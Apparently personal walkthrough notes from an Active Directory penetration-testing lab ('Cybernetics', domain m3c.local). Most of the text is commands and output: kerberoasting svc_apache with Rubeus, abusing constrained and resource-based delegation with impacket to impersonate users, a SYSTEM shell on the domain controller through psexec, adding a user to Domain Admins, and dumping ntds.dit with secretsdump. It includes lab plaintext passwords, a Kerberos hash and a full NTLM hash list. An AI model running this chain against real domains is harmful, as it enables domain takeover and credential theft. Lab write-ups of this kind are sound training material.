LDAP        10.9.20.10      389    M3DC             Elizabeth.Dunham              2020-01-02 15:39:59 0                                                                   
LDAP        10.9.20.10      389    M3DC             Robert.Jones                  2020-01-02 15:39:59 0                                                                   
LDAP        10.9.20.10      389    M3DC             Troy.Bing                     2020-01-02 15:39:59 0                                                                   
LDAP        10.9.20.10      389    M3DC             Saul.Wright                   2020-01-02 15:39:59 0                                                                   
LDAP        10.9.20.10      389    M3DC             svc_sql                       2020-01-02 15:39:59 0                                                                   
LDAP        10.9.20.10      389    M3DC             svc_apache                    2020-01-02 15:39:59 0
```



Now we have a valid list, we do not need to check for AS-REPRoastable as we know are none.

We can try some password spraying with creds from svc_sql... And we can still use the same product to do so:



But no other worked so far!

Next i tried to get the spn from SVC_APACHE but seems just hanging via impacketer, I could try do it directly from Windows via Rubeus.exe?

```
C:\Temp>.\Rubeus.exe kerberoast /user:svc_apache /outfile:C:\temp\hashes.kerberoast
.\Rubeus.exe kerberoast /user:svc_apache /outfile:C:\temp\hashes.kerberoast

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : svc_apache
[*] Target Domain          : m3c.local
[*] Searching path 'LDAP://m3dc.m3c.local/DC=m3c,DC=local' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=svc_apache)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : svc_apache
[*] DistinguishedName      : CN=svc_apache\ ,OU=Service Accounts,OU=IT,OU=Users,OU=m3c,DC=m3c,DC=local
[*] ServicePrincipalName   : http/mq.m3c.local
[*] PwdLastSet             : 1/2/2020 10:39:59 AM
[*] Supported ETypes       : AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96
[*] Hash written to C:\temp\hashes.kerberoast

[*] Roasted hashes written to : C:\temp\hashes.kerberoast

C:\Temp>
```

Can we eventually crack it?

```
C:\Temp>type hashes.kerberoast
type hashes.kerberoast
$krb5tgs$18$svc_apache$m3c.local$*http/mq.m3c.local@m3c.local*$4A66611B3B0003CBCD23FA55$71E147EA6409FADC18F9FADF1FBBC3308612F7F3C212AA9796C9E1BE0C0C05C4EF7B613F1E581A730C6AD1FA933A84BA317F1E24F869D691E10E5A1CC42AEC3C772BEE1D0A3ECCA10373827207FD91DE495333CAACCC7621997B38B646516DB0BF63ED113C7024A924D8A029C86362EB1F273C585744E4CB1E843A6F0C2A1C6880191A20F1074361A632B6CBC49DEC0025A9980E0F0273DFB72D49F182444AE44FD7D81DE822ABD12B3C8A2F59DFC77E485E0B61B13B95788E0950CF7A7DA55F1777FD9B8B65FB7EE417D231F8DFB1C35F07604F52AD74FB5DC15D00E541477E6B07A836DCE57B0D1587130E53AA5EA5915BCFA5CD25545840C1F5335C4FCC5E416097C38741B99588BA06C96E657114AC28E9F2AC73161C09A91261EE982B2AF87141E5CE7701D7A723E02F1A78C0EE21C8072BED1B8D7AACB2B681E60E5322FE61F48A000E3F0629B02DFA081A44049F49A81C626F2AD5B72F797FC81B5A4D2BF57CEE850F2EDB3245E4AD203BBA3B45A12C71070361227DCDB298F81EE34AE86360907B2FEBE2D7AE821CAA9DB521B03211804F177FA573494672B380C1F1090D30A896CA75E666EF2E8AA5600349C3447B38E2974FD935DE0DC14498A6E6D0DBCDB7BABD139052EC7ED220F49AD8778999F76D92D3771342A2229F4C43E2D25DD9E0268E0B64A301068FFD599A1DE55FC5890B0DE96B57A2DAEB38279BA792A3EF182B2F0DA28C073419DDA12CFE05429C54E14215348FEC39A2AE47BE21E60175C3E2FC355509AAEF16CC574C0C771B008C08D4A4F6666DC0834843D3A24420E9F4E2B76628AA0BB3E0421AA8747E1EEF20AFE3DD2504BD6B93B32B5F6255DC40F011B202DE59CC36EF478B25A8CFA3FABCB3065269E290DB8EF5901F95986A90F207B03CD22B0696062E4840C29E6E208AD4904A2A2DC107F86D81D2805BF2AAD10344B9CBB29F5F6BD6902E9183B82E6B30FC431179CD9FFE1FA6110938E71DBB3E0BCE07D3D0C3495A553607ECF6A6651B4375F8268AA71E51DAA65C17A7E2166B65A7050947069B87F876407024B420E1EB6257C286B1DEFE5B59DB1DF0B55647FD2DCD7B2A03EEDF686E43BA45F76AA03B181EDF5B5A6CC2379322176B8B004863121575A2D77081CB6469A11C21C7374AFBEA472DE4EC54866C568A2E0EC38766532B3FDE1133268E9649E716730F749DDC5D523E72B1AAFA6996EE1F5FBC2C5E1A8C0043893DCB393CA759B6CB387EC02AA58CA41FFE09C80422B1812226268EBE982F3530BD392996E8059AD049BCDA5A56D39122C95FB3E67E4563DA4A443F609DB967D4460EBAD1D5822CDC62E39556A9146CE4A08C5D08BD42EEABA6CD73AD4CC4C99AB24A24179D04CA6C1329AA169373974C9005103A4D3C928120B28EE8545232E75D52D6E4B56130A98787DD0ED4D6FB1E1E9A7B140102CC27C9F8DDD51986DF405219712B6B91E5BEA26C0FA7F145535143BF91E07B19B453E282AFBE59365EC2FF85ED00D4F631FBC04E14361C66486AA8732B89C88E60DAD6604A4FFAB6FD65E720B1F033D36C3D57C27326C43EC092807BE6617C96921065840687E3BB2BF8
```



Now so far, the SVC_Apache seems not crack-able via Rockyou.txt, no AS-REP, no other Password spray. I guess we will undercover SVC_APACHE from the webserver, but we need to gain the access via S4u TGT first so we can surf the machine!

Now we need to find the right service and to do so we can use Powerview.ps1 or we might be able to do it directly from the Linux via the powerview.ps1?



Now we can try if this shit works... And we can see that our user can delegate the TIME service?

```
(LDAP)-[10.9.20.10]-[M3C\svc_sql]
PV > Get-DomainUser -TrustedToAuth
cn                                : svc_sql
distinguishedName                 : CN=svc_sql\ ,OU=Service Accounts,OU=IT,OU=Users,OU=m3c,DC=m3c,DC=local
memberOf                          : CN=Service Accounts,OU=Security Groups,OU=m3c,DC=m3c,DC=local
name                              : svc_sql
objectGUID                        : {12abb3f4-7318-4476-b699-00205fac813a}
userAccountControl                : NORMAL_ACCOUNT [16843264]
                                    DONT_EXPIRE_PASSWORD
                                    TRUSTED_TO_AUTH_FOR_DELEGATION
badPwdCount                       : 0
badPasswordTime                   : 2024-06-11 14:59:13.867409
lastLogoff                        : 1601-01-01 00:00:00+00:00
lastLogon                         : 2024-06-11 15:31:51.387329
pwdLastSet                        : 2020-01-02 15:39:59.437614
primaryGroupID                    : 513
objectSid                         : S-1-5-21-340507432-2615605230-720798708-1292
sAMAccountName                    : svc_sql
sAMAccountType                    : 805306368
userPrincipalName                 : svc_sql@m3c.local
servicePrincipalName              : mssqlsvc/db.m3c.local
objectCategory                    : CN=Person,CN=Schema,CN=Configuration,DC=m3c,DC=local
msDS-AllowedToDelegateTo          : time/m3webaw.m3c.local
                                    time/M3WEBAW
msDS-SupportedEncryptionTypes     : AES128
                                    AES256
```

Now we can try to run the S4U to impersonate as another SPN from time to CIFS:

```
root@kali-bello:/home/millycash/Downloads/Cybernetics# impacket-getST -spn 'TIME/m3webaw.m3c.local' m3c/svc_sql:'ef8Mahvae2j1' -altservice 'cifs'  -dc-ip 10.9.20.10  
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Getting ST for user
[*] Changing service from TIME/m3webaw.m3c.local@M3C.LOCAL to cifs/m3webaw.m3c.local@M3C.LOCAL
[*] Saving ticket in svc_sql@cifs_m3webaw.m3c.local@M3C.LOCAL.ccache
                                                                                                                                                                                  
root@kali-bello:/home/millycash/Downloads/Cybernetics# impacket-getST -spn time/m3webaw.m3c.local m3c/svc_sql:'ef8Mahvae2j1' -altservice CIFS -impersonate svc_apache -dc-ip 10.9.20.10 
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating svc_apache
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Changing service from time/m3webaw.m3c.local@M3C.LOCAL to CIFS/m3webaw.m3c.local@M3C.LOCAL
[*] Saving ticket in svc_apache@CIFS_m3webaw.m3c.local@M3C.LOCAL.ccache
```

i created both since it wouldn't let me impersonate as Admin on the CIFS, but can we login via smb_exec now?



But I still get issues so i think I need to identify a username that might have access to this machine otherwise it won't work out and so far svc_apache isn't a good candidate.

Now trying to bruteforce the local usernames seems like we can't find other:

```
root@kali-bello:/home/millycash/Downloads/Cybernetics# NetExec smb 10.9.20.12 -u svc_sql -p 'ef8Mahvae2j1' --rid-brute 1500
SMB         10.9.20.12      445    M3WEBAW          [*] Windows 10 / Server 2019 Build 17763 x64 (name:M3WEBAW) (domain:m3c.local) (signing:True) (SMBv1:False)
SMB         10.9.20.12      445    M3WEBAW          [+] m3c.local\svc_sql:ef8Mahvae2j1 
SMB         10.9.20.12      445    M3WEBAW          500: M3WEBAW\Administrator (SidTypeUser)
SMB         10.9.20.12      445    M3WEBAW          501: M3WEBAW\Guest (SidTypeUser)
SMB         10.9.20.12      445    M3WEBAW          503: M3WEBAW\DefaultAccount (SidTypeUser)
SMB         10.9.20.12      445    M3WEBAW          504: M3WEBAW\WDAGUtilityAccount (SidTypeUser)
SMB         10.9.20.12      445    M3WEBAW          513: M3WEBAW\None (SidTypeGroup)
                                                                                                                                                                                  
root@kali-bello:/home/millycash/Downloads/Cybernetics#
```

So my idea is if one of the users that are admins or part of the IT staff might be a good candidate?

```
cn                                : Norma Branham
distinguishedName                 : CN=Norma Branham,OU=IT Admins,OU=IT,OU=Users,OU=m3c,DC=m3c,DC=local
memberOf                          : CN=IT Admins,OU=Security Groups,OU=m3c,DC=m3c,DC=local
name                              : Norma Branham
objectGUID                        : {3cac0f66-58b8-4196-b897-84551f1041de}
userAccountControl                : NORMAL_ACCOUNT [66048]
                                    DONT_EXPIRE_PASSWORD
badPwdCount                       : 4
badPasswordTime                   : 2024-06-11 14:59:35.039379
lastLogoff                        : 1601-01-01 00:00:00+00:00
lastLogon                         : 2020-01-09 14:42:20.772738
pwdLastSet                        : 2020-01-02 15:39:47.238935
primaryGroupID                    : 513
objectSid                         : S-1-5-21-340507432-2615605230-720798708-1130
adminCount                        : 1
sAMAccountName                    : Norma.Branham
sAMAccountType                    : 805306368
userPrincipalName                 : Norma.Branham@m3c.local
objectCategory                    : CN=Person,CN=Schema,CN=Configuration,DC=m3c,DC=local
msDS-SupportedEncryptionTypes     : AES128
                                    AES256
```

But it isn't working so I am wondering if maybe something is wrong? Because from AD the machine object have WSMAN and TERMSRV:

```
cn                                : M3WEBAW
distinguishedName                 : CN=M3WEBAW,OU=Web Servers,OU=Servers,OU=Computers,OU=m3c,DC=m3c,DC=local
instanceType                      : 4
name                              : M3WEBAW
objectGUID                        : {b082c848-8258-4c25-87bf-449364c77162}
userAccountControl                : WORKSTATION_TRUST_ACCOUNT [4096]
badPwdCount                       : 0
badPasswordTime                   : 1601-01-01 00:00:00
lastLogoff                        : 1601-01-01 00:00:00+00:00
lastLogon                         : 2024-06-11 16:27:04.191397
pwdLastSet                        : 2020-01-24 05:06:57.904081
primaryGroupID                    : 515
objectSid                         : S-1-5-21-340507432-2615605230-720798708-1318
logonCount                        : 660
sAMAccountName                    : M3WEBAW$
sAMAccountType                    : 805306369
operatingSystem                   : Windows Server 2019 Standard
dNSHostName                       : m3webaw.m3c.local
servicePrincipalName              : WSMAN/m3webaw
                                    WSMAN/m3webaw.m3c.local
                                    TERMSRV/M3WEBAW
                                    TERMSRV/m3webaw.m3c.local
                                    RestrictedKrbHost/M3WEBAW
                                    HOST/M3WEBAW
                                    RestrictedKrbHost/m3webaw.m3c.local
                                    HOST/m3webaw.m3c.local
objectCategory                    : CN=Computer,CN=Schema,CN=Configuration,DC=m3c,DC=local
lastLogonTimestamp                : 2024-06-11 02:54:09.465790+00:00
msDS-SupportedEncryptionTypes     : AES128
                                    AES256
```

I am wondering if we need to useeither WSMAN or TERMSRV as alternative SPN instead?

Now I had to reset my machine but I decided to use the Poiwerview.ps1 in order to see more details, so far I know that svc_sql can controll the SPN time of M3WEBAW, but I am missing more informations:

```
PS C:\Temp> Get-NetUser -TrustedToAuth -Credential $Cred


logoncount                    : 4244
badpasswordtime               : 6/11/2024 11:48:42 AM
department                    : Service Accounts
objectclass                   : {top, person, organizationalPerson, user}
displayname                   : svc_sql
lastlogontimestamp            : 6/10/2024 10:54:11 PM
userprincipalname             : svc_sql@m3c.local
name                          : svc_sql
objectsid                     : S-1-5-21-340507432-2615605230-720798708-1292
samaccountname                : svc_sql
codepage                      : 0
samaccounttype                : USER_OBJECT
accountexpires                : NEVER
countrycode                   : 0
whenchanged                   : 6/11/2024 2:54:11 AM
instancetype                  : 4
usncreated                    : 14270
objectguid                    : 12abb3f4-7318-4476-b699-00205fac813a
lastlogoff                    : 12/31/1600 7:00:00 PM
msds-allowedtodelegateto      : {time/m3webaw.m3c.local, time/M3WEBAW}
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=m3c,DC=local
distinguishedname             : CN=svc_sql\ ,OU=Service Accounts,OU=IT,OU=Users,OU=m3c,DC=m3c,DC=local
dscorepropagationdata         : 1/1/1601 12:00:00 AM
serviceprincipalname          : mssqlsvc/db.m3c.local
givenname                     : svc_sql
memberof                      : CN=Service Accounts,OU=Security Groups,OU=m3c,DC=m3c,DC=local
lastlogon                     : 6/11/2024 1:38:53 PM
badpwdcount                   : 0
cn                            : svc_sql
useraccountcontrol            : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
whencreated                   : 1/2/2020 3:39:59 PM
primarygroupid                : 513
pwdlastset                    : 1/2/2020 10:39:59 AM
msds-supportedencryptiontypes : 24
usnchanged                    : 389244
```

Yeah is says that basically should work on any account?


I am wondering if this is a rabbit hole? I will pause for now an go back to WEBAPPS

&nbsp;

# Here we are again

Now I have credentials and all the issues I had was related to bad Pass the Ticket, now I can check and see that permission is missing.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# rbcd.py -delegate-to 'M3DC$' -dc-ip 10.9.20.10 -action 'read' m3c.local/svc_apache            
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] No credentials supplied, supply password
Password:
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
```

next we need to add the delegation so we can impersonate on behalf of anyone of the DC machine:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# rbcd.py -delegate-from 'svc_apache' -delegate-to 'M3DC$' -dc-ip 10.9.20.10  -action 'write' m3c.local/svc_apache:"ef8Mahvae2j2"
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] svc_apache can now impersonate users on M3DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     svc_apache   (S-1-5-21-340507432-2615605230-720798708-1293)
```

And we can double check the success now!



Now is where the fun starts! Now we can gorge the impersonation kerberos ticket, I choose norma as she holds DC sync permissions, I will start with CIFS to make sure it works and then I will use the ldap to perform the actual DCSync!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# impacket-getST -spn 'cifs/M3DC.M3C.LOCAL' -impersonate 'NORMA.BRANHAM' -dc-ip 10.9.20.10 -k -no-pass m3c.local/svc_apache:"ef8Mahvae2j2"
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating NORMA.BRANHAM
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in NORMA.BRANHAM@cifs_M3DC.M3C.LOCAL@M3C.LOCAL.ccache
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# export KRB5CCNAME=NORMA.BRANHAM@cifs_M3DC.M3C.LOCAL@M3C.LOCAL.ccache     
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# klist                                                            
Ticket cache: FILE:NORMA.BRANHAM@cifs_M3DC.M3C.LOCAL@M3C.LOCAL.ccache
Default principal: NORMA.BRANHAM@m3c.local

Valid starting     Expires            Service principal
06/13/24 18:42:54  06/14/24 04:42:54  cifs/M3DC.M3C.LOCAL@M3C.LOCAL
    renew until 06/14/24 18:42:54
```

But I am getting some issues:



Now googling around this might be caused by a time difference between my pc and the DC so i will try to sync my time to it!

But that wasn't the issue i got a tips to use the other user John.clarcke:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# impacket-rbcd -action write -delegate-to "M3DC$" -delegate-from "M3SQLW$" m3c.local/svc_apache:ef8Mahvae2j2
impacket-getST -spn 'cifs/m3dc.m3c.local' -impersonate john.clark -dc-ip 10.9.20.10 m3c.local/svc_apache:"ef8Mahvae2j2"
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Accounts allowed to act on behalf of other identity:
[*]     svc_apache   (S-1-5-21-340507432-2615605230-720798708-1293)
[*]     M3SQLW$      (S-1-5-21-340507432-2615605230-720798708-1320)
[*] M3SQLW$ can already impersonate users on M3DC$ via S4U2Proxy
[*] Not modifying the delegation rights.
[*] Accounts allowed to act on behalf of other identity:
[*]     svc_apache   (S-1-5-21-340507432-2615605230-720798708-1293)
[*]     M3SQLW$      (S-1-5-21-340507432-2615605230-720798708-1320)
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Getting TGT for user
[*] Impersonating john.clark
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in john.clark@cifs_m3dc.m3c.local@M3C.LOCAL.ccache
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# export KRB5CCNAME=/home/millycash/Downloads/Cybernetics/john.clark@cifs_m3dc.m3c.local@M3C.LOCAL.ccache                             
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# impacket-psexec -k -no-pass m3c.local/john.clark@m3dc.m3c.local
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Requesting shares on m3dc.m3c.local.....
[*] Found writable share ADMIN$
[*] Uploading file lDbDDZJm.exe
[*] Opening SVCManager on m3dc.m3c.local.....
[*] Creating service zDCg on m3dc.m3c.local.....
[*] Starting service zDCg.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>
```

And now we are in as NTSystem, this allows us to dump the NDTS.dit file and parse all the shit!



Damn it isnt working... but we can get another flag!

```
C:\Users\Administrator> cd Desktop

C:\Users\Administrator\Desktop> cat flag.txt
'cat' is not recognized as an internal or external command,
operable program or batch file.

C:\Users\Administrator\Desktop> type flag.txt
Cyb3rN3t1C5{C0n$tr@!n3d!}

C:\Users\Administrator\Desktop>
```

Now since i wasn't able to run the ntds.dit I added temporarly a new user to Domain Admins so i can reach it via RDP:  




And now we succeded hurra!



And will use the Evii-winrm to pass the file to my pc:



And at last we can dump the passwords!



What we are insterested into is basically the NTLM hash of the Administrator@m3c.local

```
──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/M3DC]
└─# impacket-secretsdump -ntds ntds.dit -system SYSTEM -security SECURITY local -just-dc-ntlm
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Target system bootKey: 0x11ac3ccb6e80c99411cc036289c81f1b
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 766aa3bc6ab6f07e146b75612a4854ce
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5a0618a9e03bd9fa9efbe142468afed5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
M3DC$:1000:aad3b435b51404eeaad3b435b51404ee:7a96bac19802120d621a0752db472651:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:14bf84e8ef43e3146e8308439afe9914:::
m3c.local\Keith.Treadwell:1103:aad3b435b51404eeaad3b435b51404ee:bfbd087162d3ccd59c5bb50a96823c5f:::
m3c.local\John.Turner:1104:aad3b435b51404eeaad3b435b51404ee:7f74155d5b987c0bc3a7a16885864ebb:::
m3c.local\Antonio.Oneal:1105:aad3b435b51404eeaad3b435b51404ee:41b4372ce178d3028e9413b7d7d8a014:::
m3c.local\Gregory.McNemar:1106:aad3b435b51404eeaad3b435b51404ee:880c9c1f4350636da845269c2a4b35fa:::
m3c.local\Wallace.Dover:1107:aad3b435b51404eeaad3b435b51404ee:454da81e19e7a9e88b13bd3617cb8616:::
m3c.local\Mary.Menjivar:1108:aad3b435b51404eeaad3b435b51404ee:60517337bbdef6edbcc42ae9aede2c86:::
m3c.local\William.Ryan:1109:aad3b435b51404eeaad3b435b51404ee:00b40183ac556015406a6be445d89967:::
m3c.local\Courtney.Echevarria:1110:aad3b435b51404eeaad3b435b51404ee:0da9078de4062a42781e71968907f03d:::
m3c.local\Curtis.Scott:1111:aad3b435b51404eeaad3b435b51404ee:ba7dca93fa728caed2f0564e20fc7e21:::
m3c.local\Julia.Harvey:1112:aad3b435b51404eeaad3b435b51404ee:4ed78d554ce9acbdb4ed69588bd96bd5:::
m3c.local\Micheal.Crosley:1113:aad3b435b51404eeaad3b435b51404ee:06442ae994bd82cd618915793308b8f5:::
m3c.local\Charlene.Butcher:1114:aad3b435b51404eeaad3b435b51404ee:0492b563f9d399881fa3134e63dea91c:::
m3c.local\Lorraine.McDonald:1115:aad3b435b51404eeaad3b435b51404ee:62ad9e7e319e3a18cf33281f9d3aeb42:::
m3c.local\David.Gaines:1116:aad3b435b51404eeaad3b435b51404ee:1c3d3a63afe6a758c243b81c16253c0a:::
m3c.local\Elda.Martinez:1117:aad3b435b51404eeaad3b435b51404ee:85ce9136da6ea049d416a4608b66ecc2:::
m3c.local\Ronald.Shepard:1118:aad3b435b51404eeaad3b435b51404ee:97fb63e3ad16b373fd005862258da80b:::
m3c.local\Justin.Doty:1119:aad3b435b51404eeaad3b435b51404ee:2a99b57c0801f3430ec94503a83cbbf2:::
m3c.local\Silvia.Harrison:1120:aad3b435b51404eeaad3b435b51404ee:a1f7fb1ee76b2796b1ffccd0f8da8373:::
m3c.local\Amanda.Green:1121:aad3b435b51404eeaad3b435b51404ee:f9fc52bd42d0e884b7f76ce9bcb9dc37:::
m3c.local\Terri.Benson:1122:aad3b435b51404eeaad3b435b51404ee:778097f8c94147e3e28c5bed45b4c4a1:::
m3c.local\Micki.Quintero:1123:aad3b435b51404eeaad3b435b51404ee:4ef6c4b287c8209cce9b6b1daa45a321:::
m3c.local\Christopher.Wiltse:1124:aad3b435b51404eeaad3b435b51404ee:b3e466984209548d347dfd4d4d658b7f:::
m3c.local\Russell.Myers:1125:aad3b435b51404eeaad3b435b51404ee:53be477e79ad5ba15a3307f6b8c65369:::
m3c.local\Angelica.Vanpelt:1126:aad3b435b51404eeaad3b435b51404ee:f2ec135284ba2d102b0a23719e2dffe6:::
m3c.local\Brian.Jones:1127:aad3b435b51404eeaad3b435b51404ee:873f02e93b5088d31ac350e965cd9b91:::
m3c.local\Jennifer.Rector:1128:aad3b435b51404eeaad3b435b51404ee:c9b4cc6b4aa575ebb655dcf4d39f0d31:::
m3c.local\Julie.Middendorf:1129:aad3b435b51404eeaad3b435b51404ee:82d46b6afff6c7241ea5353912293bd9:::
m3c.local\Norma.Branham:1130:aad3b435b51404eeaad3b435b51404ee:8f752e50f2dbeefa4fd7fcf0fa7d7b98:::
m3c.local\Kenneth.Kea:1131:aad3b435b51404eeaad3b435b51404ee:68f1982c584d83ee9d9c2d2e3ee77a51:::
m3c.local\Teressa.Gomez:1132:aad3b435b51404eeaad3b435b51404ee:3ab2be3e03c6f77213f4eb5ecc22398d:::
m3c.local\John.Clark:1133:aad3b435b51404eeaad3b435b51404ee:534c8901fc55d4e52522d7b1c24ff51b:::
m3c.local\Louise.Hilbert:1134:aad3b435b51404eeaad3b435b51404ee:c4d067d4ce1448235ca8ab086a765640:::
m3c.local\Herbert.Hutchinson:1135:aad3b435b51404eeaad3b435b51404ee:6862dbee9924737df1ebbf23863db751:::
m3c.local\Edward.Bedard:1136:aad3b435b51404eeaad3b435b51404ee:c6a57d4f34cfa0d1d298679bfea955a6:::
m3c.local\Robert.Doi:1137:aad3b435b51404eeaad3b435b51404ee:770831b978ae08c87c27021d3412c2e9:::
m3c.local\Maria.Holland:1138:aad3b435b51404eeaad3b435b51404ee:5a9ba63905cf06af0004a485b10595d3:::
m3c.local\Kevin.Lemmons:1139:aad3b435b51404eeaad3b435b51404ee:d2bd0ce9f4e869f85083e10efdcdd23e:::
m3c.local\Victor.Firkins:1140:aad3b435b51404eeaad3b435b51404ee:3557cea4e21a32bd988716ba772c459c:::
m3c.local\Martina.Baker:1141:aad3b435b51404eeaad3b435b51404ee:96109dbfd6087663d7e3ac5d0352175c:::
m3c.local\Bryan.Galvan:1142:aad3b435b51404eeaad3b435b51404ee:5101e1519b9071c197cd3736e99c88a3:::
m3c.local\Stephen.Boggs:1143:aad3b435b51404eeaad3b435b51404ee:476c2990f231c4ee2b5a57cc2878a73a:::
m3c.local\Brian.Hawkins:1144:aad3b435b51404eeaad3b435b51404ee:e78023f7889f16677bccddf657c36977:::
m3c.local\Robert.Blood:1145:aad3b435b51404eeaad3b435b51404ee:a2aa84fdbb39d940e8ea20bf9060ac9b:::
m3c.local\Jerry.Brown:1146:aad3b435b51404eeaad3b435b51404ee:8188598fac9725610b05faec4beb9bbd:::
m3c.local\Larry.Pepper:1147:aad3b435b51404eeaad3b435b51404ee:98a9951df7f73c06f1a48772a35d5358:::
m3c.local\Nora.Adams:1148:aad3b435b51404eeaad3b435b51404ee:3a8ce86d21345e1ed5b423d1517d116b:::
m3c.local\Scott.Ramirez:1149:aad3b435b51404eeaad3b435b51404ee:bae83e1a081cc1413d89636501614fe1:::
m3c.local\Madeline.Oldfield:1150:aad3b435b51404eeaad3b435b51404ee:d78df70e4745b5132f77db1e4170d3ea:::
m3c.local\Herman.Garcia:1151:aad3b435b51404eeaad3b435b51404ee:eaa25bca60c5b4c818bae85e958110ec:::
m3c.local\Willie.Burgess:1152:aad3b435b51404eeaad3b435b51404ee:679141301d7079e9cdf6388e5e10b591:::
m3c.local\Stephen.Kellogg:1153:aad3b435b51404eeaad3b435b51404ee:8747235512cc1555e8ed1433a70b20c2:::
m3c.local\Kenneth.Noble:1154:aad3b435b51404eeaad3b435b51404ee:c8e26ccab3fd1bf57bb7a21f1a3e0d6a:::
m3c.local\Christian.Lloyd:1155:aad3b435b51404eeaad3b435b51404ee:95270169c7df93d503c9f2316de626a5:::
m3c.local\Sheree.Cooper:1156:aad3b435b51404eeaad3b435b51404ee:6cc1ec36d10b184eeacbbd691d5b26b0:::
m3c.local\Norah.Martin:1157:aad3b435b51404eeaad3b435b51404ee:44d3940f5216c5508495e880547eefcc:::
m3c.local\Manuel.Levin:1158:aad3b435b51404eeaad3b435b51404ee:481fc608f1592e6a271b3e4dd1e2c194:::
m3c.local\Jean.Summers:1159:aad3b435b51404eeaad3b435b51404ee:cce09ac895f505698de0eca802523acc:::
m3c.local\Joshua.Nunnally:1160:aad3b435b51404eeaad3b435b51404ee:6df81c0b6c255c5a713288c571e3d95e:::
m3c.local\Rebecca.Mason:1161:aad3b435b51404eeaad3b435b51404ee:f9d4bfd7539f6e436aadc56be4334b74:::
m3c.local\Tommy.Hernandez:1162:aad3b435b51404eeaad3b435b51404ee:863262ac824e72eec430399d91bf8cb9:::
m3c.local\Linda.Garcia:1163:aad3b435b51404eeaad3b435b51404ee:69116bc1b774865842ca88a642e37831:::
m3c.local\Jennifer.Fitzpatrick:1164:aad3b435b51404eeaad3b435b51404ee:b783c210090abd627d6f4a5498b5ef6a:::
m3c.local\Carol.Gabler:1165:aad3b435b51404eeaad3b435b51404ee:755a8e6e195519f7393cd1fd1cb01044:::
m3c.local\Teri.Branch:1166:aad3b435b51404eeaad3b435b51404ee:05ca465fba287999b68eac41536fded9:::
m3c.local\Adell.Daniel:1167:aad3b435b51404eeaad3b435b51404ee:324feb49898e64f19dfcb6b9f0fb5833:::
m3c.local\Mary.Stone:1168:aad3b435b51404eeaad3b435b51404ee:5773c1197fcbd229eb10ae3d36945823:::
m3c.local\Laura.Skidmore:1169:aad3b435b51404eeaad3b435b51404ee:d5434d0221f900162105a779dfb362fc:::
m3c.local\Wendy.Sanchez:1170:aad3b435b51404eeaad3b435b51404ee:5efe732a19b11c2099ef3efb830483ba:::
m3c.local\Brittney.Valdez:1171:aad3b435b51404eeaad3b435b51404ee:b8305fce56a4dcbf2a1786b173678d93:::
m3c.local\Victoria.Bozeman:1172:aad3b435b51404eeaad3b435b51404ee:a936a070e9fbe1819d05b74e60879fab:::
m3c.local\Elsie.Bartz:1173:aad3b435b51404eeaad3b435b51404ee:eeec64b8eb25babc1b52c266b788f67d:::
